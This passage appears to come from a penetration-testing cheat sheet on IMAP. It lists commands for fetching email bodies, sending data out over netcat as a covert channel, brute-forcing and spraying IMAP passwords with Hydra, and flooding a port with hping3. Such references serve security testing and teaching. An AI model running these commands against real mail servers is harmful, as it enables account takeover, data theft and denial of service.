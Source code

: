 ### Data Exfiltration

#### Exfiltrating Sensitive Data via IMAP

*   **Tool:** \[\[IMAP]], \[\[Custom Scripts]]

    ```bash
    A004 FETCH 1:5 (BODY[TEXT])
    ```
* **Description:** Extract sensitive data, such as documents or passwords, from emails stored on the server.

#### Covert Channels via IMAP

*   **Tool:** \[\[Custom Scripts]]

    ```bash
    echo "exfil data" | nc <target_ip> 993
    ```
* **Description:** Use IMAP as a covert channel to exfiltrate data while blending in with legitimate email traffic.

## Exploits and Attacks

### Password Attacks

#### Password Brute Force

*   **Tool:** \[\[Hydra Cheat Sheet]]

    ```bash
    hydra imap://<target_ip> -s 143 -l <username> -P <password_list>
    ```
* **Description:** Test a single username against multiple passwords.

#### Password Spray

*   **Tool:** \[\[Hydra Cheat Sheet]]

    ```bash
    hydra imap://<target_ip> -s 143 -l <username_list> -P <password>
    ```
* **Description:** Test a multiple usernames against a single password.

### Denial of Service

#### TCP/UPD Flood Attack

*   **Tool:** \[\[HPing3 Cheat Sheet]]

    ```bash
    hping3 <target_ip> -p <target_port> --flood --rand-source -c 1000
    ```
* **Description:** Flooding the port with connection attempts, potentially leading to a denial of service.
